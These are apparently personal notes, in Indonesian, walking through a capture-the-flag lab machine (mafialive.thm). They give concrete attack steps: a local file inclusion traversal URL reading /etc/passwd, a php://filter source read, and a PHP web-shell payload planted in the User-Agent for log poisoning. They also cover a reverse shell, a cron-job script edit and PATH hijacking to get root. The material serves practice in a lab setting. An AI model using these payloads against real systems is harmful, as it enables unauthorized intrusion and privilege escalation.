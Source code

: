 # boot:
1. scan nmap 22 80 kebuka -> di 80 ada support kontak gini : mafialive.thm jadiin hosts aja
2. visit aja itu host nya nanti ada flag -> nah pas ada di host fuzz aja
3. di fuzz ada robots cek aja -> disitu ada button buttonnya bisa lfi keknya
4. lfi biasa gabisa keknya jadi lfi double slash trick 
5. http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//etc//passwd
6. lfi gatau mau apa bisa sih ke user.txt tapi buat dapet creds gada di bash history gada id rsa authorized_keys juga
7. next coba ini: php://filter/convert.base64-encode/resource=ke file yang mau di baca
8. nanti decode aja base64 nya -> nah coba arahin ke source web sekarang yang di /robots tadi
9. revshell clue nya poison: https://0xdf.gitlab.io/2018/09/08/htb-poison.html#web-shell-via-log-poisoning
10. nanti gini sambil  taruh payload php di user agent
11. http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//var/log/apache2/access.log?c=whoami
12. oalah access log cek aja sih
13. salah bet ternyata gini
14. /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=ls 
15. nah itu user agent nya gini: User-Agent: 0xsidi: <?php system($_GET['cmd']); ?>
16. dari burp aja enak misal ada spasi ato apa tinggal urlencode -> gas reverse shell -> klaim user flag

# pe: 
1. www data ke user (horizontal PE) -> di linpeas ada cronjob jalan 1 menit sekali katanya di /opt
2. gas aja edit tambahin revshell -> echo "revshell" >> namafile.sh    
3. ke root: keknya ini vuln nya : cp /home/user/archangel/myfiles/* /opt/backupfiles -> strings di file backup di secret
4. strings backup -> dah coba aja dulu -> echo "/bin/bash" > cp -> chmod +x -> export PATH=/tmp:$PATH -> terus coba run backup
5. coba dulu aja -> echo $PATH coba -> run ini /home/archangel/secret/backup
6. ez kan PATH Hijacking -> dah klaim flag root
